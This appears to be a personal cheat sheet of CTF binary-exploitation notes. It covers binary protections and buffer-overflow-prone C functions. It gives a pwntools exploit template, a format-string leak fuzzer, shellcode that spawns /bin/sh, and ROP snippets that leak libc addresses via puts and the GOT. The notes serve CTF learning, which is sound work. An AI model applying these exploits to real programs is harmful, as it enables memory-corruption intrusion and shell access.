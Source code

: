 # writeup and some notes 
### (last update 21 December 2023)
# PWN Notes

1. Run `checksec` check the properties of executable of binary security.
	- **Stack Canaries** = a secret value placed on the stack which changes every time the program is started. the stack canary is checked and if it appears to be modified, the program exits immeadiately.
	- **Nx** = stored input or data cannot be executed as code
	- **Address Space Layout Randomization (ASLR)** = The randomization of the place in memory where the program, shared libraries, the stack, and the heap are.
	- **RELRO** = makes binary sections read-only.
2. Function that can lead to buffer overflow
- scanf
- read
- strcat
- fread
- fgets
- sprintf
- strcpy
- gets
- memcpy
- memmove
- strncpy
- snprintf
- strncat
4. Functions in assembly x86
	```shell
	; write the string to stdout  
	mov eax, 4 ; system call for write  
	mov ebx, 1 ; file descriptor for stdout  
	mov ecx, hello ; address of the string  
	mov edx, len ; number of bytes to write  
	int 80h ; invoke the kernel to perform the system call  
	  
	; exit with success  
	mov eax, 1 ; system call for exit  
	xor ebx, ebx ; return code of 0 for success  
	int 80h ; invoke the kernel to perform the system call
	
	; read input
	mov    edx,0x3c # Store 0x3c in edx
	mov    eax,0x3 # syscall for read()
	int    0x80 # invoke syscall
	add    esp,0x3c # esp increase
	``` 
5. Script i normally use 
- Template i got from crypto cat
``` python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)
# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())
# Set up pwntools for the correct architecture
exe = './<file>'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'
# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
io = start()
padding = 20

payload = flat(

)

# Save the payload to file
write('payload', payload)
# Send the payload
io.sendline( payload)
# Receive the flag
io.interactive()
```
- fuzzer (%p for address leaking, %s for secrets leaking)
```python
from pwn import *
import os

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./pakmat_burger', checksec=False)
os.environ["SECRET_MESSAGE"] = "YOKO"

# Let's fuzz 100 values
for i in range(1,100):
    try:
        p = process(level='error')
        p.sendlineafter(b': ', '%{}$p'.format(i).encode())
        result = p.recv().split(b' ')
        result = result[1].split(b',')
        leak_char = result[0].ljust(8,b"\x00")
        print(str(i) + ': ' + str(leak_char).strip())
        p.close()
    except EOFError:
        pass
```
6. gdb-pwndbg useful commands
```bash
  run <<< $(python <code>) #input as stdin
  run < ./payload.txt #input as stdin
  run $(python <code>) #input as arg
  canary # check stack canary address
  x/100x $rsp # check 100 bytes in rsp 
```
7. pwntools functions i normally
To get output 
```python
leak_puts = u64(output.ljust(8,b"\x00")) # do this if theres no \n
leak = u64(p.recvline().strip().ljust(8,b'\0')) # do this if theres \n at the end
```
get address
```python
main = p64(elf.symbols.main)
plt_puts = p64(elf.plt.puts)
got_puts = p64(elf.got.puts)
```
shellcode
```python
shellcode = asm(shellcraft.cat('flag.txt'))
shellcode = asm(shellcraft.sh())
shellcode = asm('\n'.join([
    'push %d' % u32('/sh\0'),
    'push %d' % u32('/bin'),
    'xor edx, edx',
    'xor ecx, ecx',
    'mov ebx, esp',
    'mov eax, 0xb',
    'int 0x80',
]))
```
Example
```python
output = io.recv().split(b'\n')
print("output : ", output)
leak_puts = u64(output[0].ljust(8,b"\x00")) # do this if theres no \n
leak_printf = u64(output[1].ljust(8,b"\x00"))
leak = u64(p.recvline().strip().ljust(8,b'\0')) # do this if theres \n at the end
```
Leaking libc functions address
```python
# for leaking address, pop_rdi(pop rdi, ret; gadget)
payload += pop_rdi + got_puts + plt_puts 
leak = u64(p.recvline().strip().ljust(8,b'\0'))
print("puts {}".format(str(hex(leak))))
```
others
```python
# example payload converter func
payload = flat(
    b'\x90' * padding,
    esp+20,
    shellcode
)
# shellcode using asm
asm('\n'.join([
    'push %d' % u32('/sh\0'),
    'push %d' % u32('/bin'),
    'xor edx, edx',
    'xor ecx, ecx',
    'mov ebx, esp',
    'mov eax, 0xb',
    'int 0x80',
]))
# getting address
## sample getting address from output
output = io.recv().split(b'\n')
print("output : ", output)
leak_puts = u64(output[0].ljust(8,b"\x00")) # do this if theres no \n
leak_printf = u64(output[1].ljust(8,b"\x00"))
leak = u64(p.recvline().strip().ljust(8,b'\0')) # do this if theres \n at the end

main = p64(elf.symbols.main)
plt_puts = p64(elf.plt.puts)
got_puts = p64(elf.got.puts)
# for leaking address, pop_rdi(pop rdi, ret; gadget)
payload += pop_rdi + got_puts + plt_puts 
# output format i used for leaking address
leak_puts = u64(output[0].ljust(8,b"\x00"))
leak_printf = u64(output[1].ljust(8,b"\x00"))
print("puts {}".format(str(hex(leak_puts))))
print("printf {}".format(str(hex(leak_printf))))
```

## Pwn Resources
- https://github.com/Crypto-Cat/
- https://zeynarz.github.io/posts/wgmy23/
- https://razvioverflow.github.io/tryhackme/pwn101.html
